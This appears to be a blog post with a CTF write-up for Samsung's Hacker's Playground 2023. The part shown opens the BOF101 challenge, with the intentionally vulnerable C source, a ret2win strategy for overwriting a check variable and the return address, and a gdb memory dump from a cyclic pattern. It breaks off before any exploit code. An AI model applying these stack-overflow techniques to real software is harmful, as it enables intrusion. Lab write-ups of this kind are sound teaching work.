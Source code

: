 ﻿---
layout: post
title: "Writeup Hacker's Playground 2023"
categories: Pwn
tags: Hacking Pwn
---

#Hacker's Playground 2023

This 'weekend' (12 hours, for me 4!) Samsung Research Security Team hosted a ctf, despite this weekend was full of events I decided to play solo the Samsun's one and at the end of the day I did 5/7 pwn challs (not too bad for a noob!).



Today I'll write about BOF101, BOF102, BOF103, BOF104 and 9end2outs...

# BOF101
The obvious ret2win challenge, but this time with a catch the program check if a variable is changed, and if so it exits...

```c
int main() {
	int check=0xdeadbeef;
	char name[140];
	printf("printflag()'s addr: %p\n", &printflag);
	printf("What is your name?\n: ");
	scanf("%s", name);	
	if (check != 0xdeadbeef){
		printf("[Warning!] BOF detected!\n");
		exit(0);
	}
	return 0;
}
```

Strategy: 
1) Find the offset
2) Overwrite the check memory with 0xdeadbeef
3) Call printflag()

Let's jump into gdb, I first set a breakpoint here:

    0x4012a4 <main+90>            cmp    dword ptr [rbp - 4], 0xdeadbeef

Then with `cyclic 200` I generated the pattern and when I reached the breakpoint I examined the near area of `$rbp-4`

    pwndbg> x/40gx $rbp-4
    0x7fffffffdecc:	0x6161617361616161	0x6161617461616161
    0x7fffffffdedc:	0x6161617561616161	0x6161617661616161
    0x7fffffffdeec:	0x6161617761616161	0x6161617861616161
    0x7fffffffdefc:	0x6161617961616161	0x5b44a00061616161
    0x7fffffffdf0c:	0xffffdfe8d7b5cdb5	0x0040124a00007fff
    0x7fffffffdf1c:	0x0000000000000000	0xf7ffd04000000000
    0x7fffffffdf2c:	0xe686a06500007fff	0x61cea065284a324a
    0x7fffffffdf3c:	0x00000000284a2230	0x0000000000007fff
    0x7fffffffdf4c:	0x0000000000000000	0xffffdfe800000000
    0x7fffffffdf5c:	0x0000000000007fff	0xde23cb0000000000
    0x7fffffffdf6c:	0x0000000057d99d22	0xf7c29e4000000000
    0x7fffffffdf7c:	0x0000000000007fff	0xffffdff800007fff
    0x7fffffffdf8c:	0xf7ffe2e000007fff	0x0000000000007fff
    0x7fffffffdf9c:	0x0000000000000000	0x0040111000000000
    0x7fffffffdfac:	0xffffdfe000000000	0x0000000000007fff
    0x7fffffffdfbc:	0x0000000000000000	0x0040113e00000000
    0x7fffffffdfcc:	0xffffdfd800000000	0x0000001c00007fff
    0x7fffffffdfdc:	0x0000000100000000	0xffffe33000000000
    0x7fffffffdfec:	0x0000000000007fff	0xffffe35000000000